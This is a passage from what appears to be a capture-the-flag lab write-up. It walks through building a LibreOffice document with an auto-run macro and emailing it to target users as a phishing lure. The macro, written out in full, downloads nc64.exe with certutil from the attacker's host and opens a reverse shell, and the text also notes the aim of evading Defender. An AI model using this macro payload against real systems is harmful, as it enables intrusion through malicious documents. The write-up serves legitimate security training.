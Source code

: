 These emails are a good hint as to where to go next. Someone is expecting a TPS report, likely in Open Office format, and Defender will likely eat known payloads (like anything from Metasploit or `msfvenom`). If I want to use PowerShell, I’ll be working with [constrained language mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/), which I last showed on [Sizzle](/2019/06/01/htb-sizzle.html#clm--applocker-break-out).

On logging in, there’s a checkbox to use the “light version” of OWA. Clicking that will provide a much smoother experience.

#### Create Doc

I’ll open up Libre Writer and put some dummy text into the page:

![image-20220425172125054](https://0xdfimages.gitlab.io/img/image-20220425172125054.png)

I’ll save the document.

Clicking “Tools” > “Macros” > “Edit Macros…” open the macro editor.

At first, there’s no module in the “Standard” folder in the document. “Tools” > “Organize Macros” > “Basic…” will open another dialog, and the “New” button will let me create one:

![image-20220425173353785](https://0xdfimages.gitlab.io/img/image-20220425173353785.png)

Back in the editor, I’ll go to that new Module 1 and find it comes with a `main` function. I’ll change that to `OnLoad` just for my own reminder of what it’s doing. I can call shell commands using `shell()`.

I’ll also need to go to “Tools” > “Customize…” to get to the document customize dialoag. In there, I’ll go to the “Events” tab, and click the “Open Document” event, then the “Assign Macro…” button. I’ll associate the `OnLoad` macro with this even so it will run on open:

![image-20220428085349342](https://0xdfimages.gitlab.io/img/image-20220428085349342.png)

#### Payload #1 - certutil and nc.exe

I’ll set my macro to:

```

Sub OnLoad

	shell("cmd /c certutil -urlcache -split -f http://10.10.14.6/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.6 443")

End Sub

```

I’ll reply all to the TPS email, and include another user, Raziel who shows up in the list on the left:

![image-20220425174332299](https://0xdfimages.gitlab.io/img/image-20220425174332299.png)

After a few minutes (many minutes, I’ll look at the automation in [Beyond Root](#automation-analysis)), there’s a hit at my webserver for `nc64.exe`, and then a shell:
